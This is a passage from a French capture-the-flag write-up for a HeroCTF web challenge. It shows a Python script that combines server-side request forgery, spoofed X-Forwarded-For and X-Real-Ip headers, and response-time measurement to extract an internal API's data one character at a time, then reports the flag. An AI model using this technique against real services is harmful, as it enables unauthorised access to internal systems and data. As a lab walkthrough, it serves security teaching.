On à une réponse pour 172.26.0.3, c'est sûr c'est notre API !
Plus qu'à développer le script:
```python
import requests
import string

burp0_url = "https://flowercdn.web.heroctf.fr:443/api/user/new_data.php"
burp0_cookies = {"PHPSESSID": "b66f9b93043e0ea5998b486206739ae8"}
burp0_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3", "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8", "Upgrade-Insecure-Requests": "1", "Sec-Fetch-Dest": "document", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-Site": "none", "Sec-Fetch-User": "?1", "Sec-Gpc": "1", "X-Forwarded-For": "172.26.0.4", "X-Real-Ip": "172.26.0.4", "Te": "trailers"}

def blind(exfiltrated):
    for char in string.printable:
        guess = f"{exfiltrated}{char}"
        burp0_data = {"url": f"http://172.26.0.3/search?name=w&surname={guess}&searchby=surname"} #name puis surname
        res = requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data, timeout=10)
        ellapsed = res.elapsed.total_seconds()
        print(f"{ellapsed}: {guess}")
        if ellapsed > (0.32*len(guess)): # En ajustant on constate qu'un char met 0.32s en plus mini
            print(f"FOUND {ellapsed}: {guess}") # Il faudrait ajouter un faux positif en regardant si ça impacte les chars suivants aussi
            blind(guess)
blind('')
```
On parvient à exfilter: Dominique en name et Lavigne en surname !
Ce qui nous donne Hero{Dominique:Lavigne}

### Pour y voir un peu plus clair sur le challenge, voici un petit diagramme:


En résumé voici le cheminement de nos requêtes pour mener à bien cette attaque. La lenteur de la réponse sur l'API inconnue en cas de bon caractère nous permet de faire la blind.


